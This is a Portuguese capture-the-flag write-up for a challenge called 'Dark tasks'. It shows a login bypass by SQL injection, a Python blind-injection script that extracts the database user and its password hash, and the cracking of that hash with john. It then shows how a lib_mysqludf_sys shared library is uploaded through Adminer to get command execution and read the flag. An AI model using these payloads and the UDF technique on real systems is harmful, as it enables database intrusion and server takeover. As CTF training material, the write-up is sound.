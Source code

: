Dark tasks
==========

Acessando a página http://178.63.58.69:8086/, havia uma imagem e no código-fonte
foi possível visualizar duas mensagens em b64. Ignorando elas, partimos para olhar
o `robots.txt`, o que nos deu uma boa pista:

```
User-agent: *
Disallow: /D4rk_MySQL.php
```

Acessando tal arquivo, notamos que se tratava de um Adminer, algo parecido com
phpmyadmin. O curioso é que ele aceitava fazer login com usuários inexistentes,
contudo sem qualquer privilégio.

Após uma dica do TheZakMan, percebi que havia deixado passar um detalhe na index do site.
A mensagem em b64 indicava uma outra página: `Th3-D4rk-T4sks/`.

Neste dir havia uma tela de login, a qual estava vulnerável a SQL injection.

Com um simples `') or 1=1-- ` foi possível efetuar o login. Olhando os links no meu,
notamos um outro arquivo que era possível injetar SQL (`viewtask.php?id=`). O que
pode nos ajudar descobrir que usuário está sendo usado para acessar o bd do site.

Desenvolvendo um código para ajudar nesse trabalho (não quis usar sqlmap), ficou:

```
import requests
import string
import sys

def do_login():
	url = 'http://178.63.58.69:8086/Th3-D4rk-T4sks/'
	r = requests.post(url, data={'user': "') or 1=1-- "})
	return r

def do_viewtask(p,c):
	url = 'http://178.63.58.69:8086/Th3-D4rk-T4sks/viewtask.php'
	r2 = requests.get(url, params=p, cookies=c)
	return r2.text

def do_query(s,c):
	r2 = do_viewtask({'id': s.encode('base64')}, c)
	return r2.find('viewtask.php?') != -1

r = do_login()

match = ''
for n in xrange(20):
	found = False
	for c in string.digits + '@_*' + string.letters:
		payload = "' or user() like '%s%%' or '0" % str(match+c)
		payload = payload.replace('_', '\_')

		if do_query(payload, r.cookies):
			found = True
			match += c
			print match
			break
	if not found:
		print 'end!'
		break
```

Com esse código identifiquei que o usuário se tratava de `dark`. A partir dai,
foi ler o campo `password` da tabela `mysql.user` referente a este usuário.
Trocando o payload para:

`' or (select password from mysql.user where user = 'dark') like '%s%%' or '0`

Obtive o seguinte hash: `*E56A114692FE0DE073F9A1DD68A00EEB9703F3F1` (41-byte)

O que foi tarefa fácil para o **john**:

```
Loaded 1 password hash (MySQL 4.1 double-SHA-1 [128/128 SSE2 intrinsics 4x])
123123           (?)
guesses: 1  time: 0:00:00:00 DONE (Sat Nov 22 09:37:43 2014)  c/s: 1369  trying: 123123 - 888888
```

Agora então voltando para o Adminer, posso logar com `dark/123123` e ver se tem
permissão pra fazer alguma coisa. (Neste ponto, já havia tido a dica do TheZakMan
que havia dito que usou UDF pra resolver) Então fui direto pensar em como jogar uma
**lib_mysqludf_sys.so** lá no servidor. (lib encontrada no google que forneceve varias
funções sys_* para executar comandos no servidor)

Como o servidor não tinha a função `from_base64`, pensei em passar o hex do binário
da lib.

`$ python -c "print open('lib_mysqludf_sys.so').read().encode('hex')"`

E rodando o SQL lá no Adminer:

`select unhex('7f454c4601010100000000000000000...') into dumpfile '/usr/lib/mysql/plugin/sigsegv.so' from dual`

Percebi que a query foi executada com sucesso! Agora então só bastava criar as UDF.
Então executando:

`CREATE FUNCTION sys_eval RETURNS string SONAME 'sigsegv.so';`

Tornou possível verificar os arquivos no servidor, o que logo me levou a:

`select sys_eval('cat /home/Th3_D@rk_S3cr3t/FL@g_Bala7.txt') from dual`

Que nos deu: FLag(Th3_Gr3@t_7aMaDa)
